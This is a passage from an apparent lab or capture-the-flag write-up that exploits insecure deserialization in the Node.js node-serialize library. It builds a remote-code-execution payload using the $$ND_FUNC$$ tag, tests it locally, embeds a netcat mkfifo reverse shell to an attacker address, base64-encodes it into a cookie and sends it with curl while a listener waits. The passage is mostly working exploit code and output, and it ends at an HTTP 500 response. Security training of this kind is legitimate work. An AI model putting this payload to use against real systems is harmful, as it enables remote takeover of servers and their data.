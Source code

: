 However, <strong>This payload didn't work for me.</strong><br>
In this article <a href="https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/">Deserialization Vulnerabilities: Attacking Deserialization in JS</a>, it's written like <em>During the deserialization process, anything after a special tag $$ND_FUNC$$ goes directly to eval function</em>.<br>
This means we don't need the part "function()" like following.
{% highlight console %}
{"anything_here":"_$$ND_FUNC$$_console.log(1)"}
{% endhighlight %}

We can check if the payload correctly by writing following script and executing.<br>
Remove the "function(){\n" and "\n }" part at the bottom<br>
(Don't forget to put a "\" for each single quote!!)
{% highlight console %}
root@kali:~# cat serialize.js 
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_require(\'child_process\').exec(\'uname -a\', function(error, stdout, stderr) { console.log(stdout) })"}'
serialize.unserialize(payload);
{% endhighlight %}
{% highlight console %}
root@kali:~# node serialize.js 
Linux kali 4.19.0-kali5-amd64 #1 SMP Debian 4.19.37-6kali1 (2019-07-22) x86_64 GNU/Linux
{% endhighlight %}

By combining previous information, we can obtain the payload.<br>
Also, we need a reverse shell payload which we don't need to use both single quote and double quote.<br>
Meaning we have to merge the followings.
{% highlight console %}
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2+2"}
{% endhighlight %}
{% highlight console %}
{"rce":"_$$ND_FUNC$$_require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });"}
{% endhighlight %}
{% highlight console %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.30 443 >/tmp/f
{% endhighlight %}

Full Payload:
{% highlight console %}
{"username":"Dummy","country":"Lameville","city":"Lametown","num":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.30 443 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })"}
{% endhighlight %}

Now we had a full payload.<br>
We need base64 encoding for the payload and make sure to run a netcat listener.
{% highlight console %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...

{% endhighlight %}
{% highlight console %}
root@kali:~# curl http://10.10.10.85:3000 -i --cookie 'profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IkxhbWV2aWxsZSIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6Il8kJE5EX0ZVTkMkJF9yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygncm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMzAgNDQzID4vdG1wL2YnLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KSJ9'
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'self'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 1072
Date: Sat, 05 Oct 2019 06:05:46 GMT